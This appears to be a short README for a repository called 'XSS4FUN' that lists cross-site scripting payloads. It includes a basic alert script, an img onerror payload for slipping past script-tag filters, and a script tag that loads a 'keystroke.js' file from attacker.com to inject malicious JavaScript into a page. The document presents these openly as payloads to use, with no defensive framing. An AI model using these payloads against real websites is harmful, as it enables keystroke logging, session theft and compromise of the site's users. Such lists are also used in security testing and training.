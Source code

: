 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
 
